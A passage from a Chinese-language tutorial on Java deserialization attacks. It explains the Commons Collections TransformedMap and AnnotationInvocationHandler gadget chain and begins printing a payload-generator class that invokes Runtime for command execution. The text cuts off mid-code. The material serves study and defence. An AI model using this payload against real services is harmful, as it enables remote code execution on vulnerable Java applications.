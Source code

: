 根据之前的分析，将上面这段代码编译运行后会默认会弹出计算器，对代码详细执行过程有疑惑的可以通过单步调试进行测试：

![p5](http://drops.javaweb.org/uploads/images/bd0766f91b5ca1a97b2bc5c6aad9b5f854b59eaa.jpg)

然后我们现在只是测试了使用`TransformedMap`进行任意命令执行而已，要想在 Java 应用反序列化的过程中触发该过程还需要找到一个类，它能够在反序列化调用`readObject()`的时候调用`TransformedMap`内置类`MapEntry`中的`setValue()`函数，这样才能构成一条完整的 Gadget 调用链。恰好在`sun.reflect.annotation.AnnotationInvocationHandler`类具有`Map`类型的参数，并且在`readObject()`方法中触发了上面所提到的所有条件，其源码如下：

```
private void readObject(java.io.ObjectInputStream s) {
    ...省略...
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
            }
        }
    }
}

```

可以注意到`memberValue`是`AnnotationInvocationHandler`类中类型声明为`Map<String, Object>`的成员变量，刚好和之前构造的`TransformedMap`类型相符，因此我们可以通过 Java 的反射机制动态的获取`AnnotationInvocationHandler`类，使用精心构造好的`TransformedMap`作为它的实例化参数，然后将实例化的`AnnotationInvocationHandler`进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget，完整代码如下：

```
package exserial.payloads;  

import java.io.ObjectOutputStream;  

import java.util.Map;
import java.util.HashMap;   

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;   

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer; 

import exserial.payloads.utils.Serializables;   

public class Commons1 { 

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
```